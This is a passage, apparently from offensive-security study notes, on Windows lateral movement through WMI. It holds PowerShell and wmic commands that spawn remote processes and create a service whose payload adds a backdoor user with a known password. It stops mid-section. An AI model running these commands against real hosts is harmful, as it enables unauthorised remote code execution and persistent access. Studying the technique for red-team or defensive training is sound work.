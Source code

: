 ```
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-CimSession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

### Remote Process Creation Using WMI

* **Ports: 135/TCP, 49152-65535/TCP (DCERPC), 5985/TCP (WinRM HTTP) or 5986 (WinRM HTTPS)**
* **Required Group Memberships: Administrators**

A process can be remotely spawned from PowerShell by leveraging WMI, sending a WMI request to the Win32\_Process class to spawn the process under the session we created before:

```
$command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value contrxl";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create
-Arguments @{
CommandLine = $command
}
```

WMI won't let you see the output of any command and will create the required process silently, on legacy systems, this can be done from CMD with WMIC:

```
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```

### Creating Services Remotely with WMI

* **Ports: 135/TCP, 49152-65535/TCP (DCERPC), 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)**
* **Required Group Memberships: Administrators**

To create a service called "contrxl":

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "contrxl";
DisplayName = "contrxl";
PathName = "net user contrxl Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

Then, we can handle the service and start it using:

```
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'contrxl'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Finally, the service can be stopped and deleted with:
